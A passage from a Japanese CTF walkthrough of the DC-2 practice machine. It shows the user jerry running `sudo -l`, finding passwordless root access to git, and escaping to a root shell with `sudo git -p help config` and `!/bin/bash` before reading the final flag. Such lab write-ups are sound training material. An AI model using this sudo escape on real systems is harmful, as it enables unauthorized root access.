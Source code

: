 Go on - git outta here!!!! だそうだ

### 22 sudo コマンドの設定を調べる

[Potato のハッキング](./experiment01.md) で学んだ `sudo -l` (p274) をつかって
jerry に付与されてる管理者権限を確認し，それを使って特権昇格を狙う

```sh
jerry@DC-2:~$ sudo -l
> User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

flag4.txt でほのめかしていた git がパスワードなしで使えるようだ，こんな設定は現実にはありえないが...

### 23 git コマンドを利用してシェルをうばう(Privilege escalation)

[git help](https://gtfobins.github.io/gtfobins/git)

```sh
jerry@DC-2:~$ sudo git -p  help config
> !/bin/bash
# rootになれた
root@DC-2:/home/jerry# id
> uid=0(root) gid=0(root) groups=0(root)
```

```sh
# root の Home ディレクトリに移動
root@DC-2:/home/jerry# cd && pwd
> /root

root@DC-2: ~# ls
> final-flag.txt

root@DC-2: ~# cat final-flag.txt
> Congratulatons!!!
>
> A special thanks to all those who sent me tweets
> and provided me with feedback - it's all greatly
> appreciated.

> If you enjoyed this CTF, send me a tweet via @DCAU7.
```
